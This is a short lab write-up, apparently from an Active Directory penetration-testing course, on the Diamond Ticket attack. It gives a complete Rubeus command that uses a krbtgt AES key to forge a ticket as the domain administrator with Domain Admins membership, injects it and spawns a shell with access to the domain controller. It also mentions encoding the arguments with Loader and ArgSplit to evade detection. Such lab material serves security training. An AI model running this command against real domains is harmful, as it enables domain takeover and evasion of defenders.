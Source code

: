 # 💎 Diamond Ticket attack

We can simply use the following Rubeus command to execute the attack. Note that the command needs to be run from an elevated shell (Run as administrator). We take the usual OPSEC care of using Loader and ArgSplit to encode the arguments "diamond"

```
C:\AD\Tools\Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt 
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This will spawn a shell, now we can access the DC

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/diamond-ticket" %}
